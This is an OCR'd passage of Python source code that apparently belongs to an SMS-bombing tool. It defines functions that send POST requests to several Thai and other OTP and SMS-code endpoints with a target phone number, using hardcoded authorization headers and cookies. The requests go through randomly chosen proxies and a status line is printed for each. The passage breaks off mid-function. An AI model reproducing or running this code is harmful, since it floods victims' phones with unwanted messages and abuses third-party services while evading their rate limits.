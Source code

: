 
def api13(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.post(
      "https://api.ulive.youpik.com/api-base/sms/sendCode",
      headers={
          "authorization":
          "Basic d2ViQXBwOndlYkFwcA==",
          "content-type":
          "application/x-www-form-urlencoded;charset=UTF-8",
          "user-agent":
          "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"
      },
      data=f"phone={phone[1:]}&type=1",
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )


def api14(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.post(
      "https://pygw.csne.co.th/api/gateway/truewalletRequestOtp",
      headers={
          "content-type": "application/x-www-form-urlencoded; charset=UTF-8",
          "user-agent":
          "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",
          "cookie": "pygw_csne_coth=91207b7404b2c71edd9db8c43c6d18c23949f5ea"
      },
      data=f"transactionId=b05a66a7e9d0930cbda4d78b351ea6f7&phone={phone}",
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )


def api15(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.post(
      "https://vaccine.trueid.net/vacc-verify/api/getotp",
      headers={
          "user-agent":
          "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",
          "content-type":
          "application/json;charset=UTF-8",
          "accept":
          "application/json, text/plain, */*",
          "cookie":